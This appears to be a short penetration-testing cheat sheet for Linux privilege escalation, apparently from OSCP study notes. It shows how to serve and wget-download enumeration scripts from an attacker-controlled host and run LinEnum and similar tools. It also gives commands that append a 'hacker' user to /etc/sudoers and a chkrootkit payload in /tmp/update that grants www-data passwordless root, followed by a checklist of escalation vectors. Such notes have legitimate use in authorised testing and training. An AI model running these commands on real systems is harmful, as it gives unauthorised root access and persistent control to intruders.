 /bin/bash

/bin/ksh

/bin/zsh

/bin/dash


### Access to more binaries

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

### Set up webserver

cd /root/oscp/useful-tools/privesc/linux/privesc-scripts; python -m SimpleHTTPServer 8080

### Download all files

wget http://192.168.1.101:8080/ -r; mv 192.168.1.101:8080 exploits; cd exploits; rm index.html; chmod 700 LinEnum.sh linprivchecker.py 

unix-privesc-check

./LinEnum.sh -t -k password -r LinEnum.txt

python linprivchecker.py extended

./unix-privesc-check standard


### Add user to sudoers

echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers

### check which version of chkrootkit
```
dpkg -l | grep chkrootkit

echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```
wait some time and keep checking the file size of sudoers

then sudo su


#### Privilege escalation

Now we start the whole enumeration-process over gain.

- Kernel exploits
- Programs running as root
- Installed software
- Weak/reused/plaintext passwords
- Inside service
- Suid misconfiguration
- World writable scripts invoked by root
- Unmounted filesystems
